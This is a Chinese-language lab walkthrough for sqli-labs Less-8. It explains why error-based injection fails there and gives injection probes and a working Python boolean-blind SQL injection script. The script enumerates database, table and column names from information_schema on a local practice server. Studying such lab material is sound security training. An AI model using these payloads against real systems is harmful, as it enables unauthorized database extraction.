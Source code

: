 看源码里特别的一句，注释掉了mysql抛出错误的代码语句，这题不能再使用报错注入

```php
//print_r(mysql_error());
```

![18](/medias/sqli-labs/18.png)


通过传入参数`?id=1' or 1=1%23`、`?id=1" or 1=1%23`，在`?id=1'or 1=1%23`时页面正常，还是单引号包裹的`id`

布尔盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-8/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        id = "0' or left((select group_concat(schema_name) from information_schema.schemata)," + str(i)+")='"+ flag + s+"'%23"
        # 爆表
        # id = "0' or left((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+")='"+ flag + s +"'%23"
        # 爆字段
        # id = "0' or left((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+")='"+ flag + s +"'%23"
        tmp_url = url + "?id=" + id
        resp = requests.get(tmp_url)
        
        if "You are in" in resp.text:
            flag += s
            i += 1
            # 最后一次成功拼接作为开始，判断超时
            start = time.time()
            print(f"[#]------{flag}")
            break
        else:
            pass
    end = time.time()
    # 目标服务器性能可能存在差距，适当调整超时时间
    try:
        if end - start > 1.5:
            if flag != "":
                print("盲注结束，检查flag是否是预期结果！")
            else:
                print("检测到长时间没有再获取到响应，该脚本布尔盲注可能并不适配退出")
            exit()  
    except NameError:
        print("在第一轮循环中未找到合适的开始字符，检查环境是否适合布尔盲注或扩充flags变量(可能出现的字符")
        exit()
```
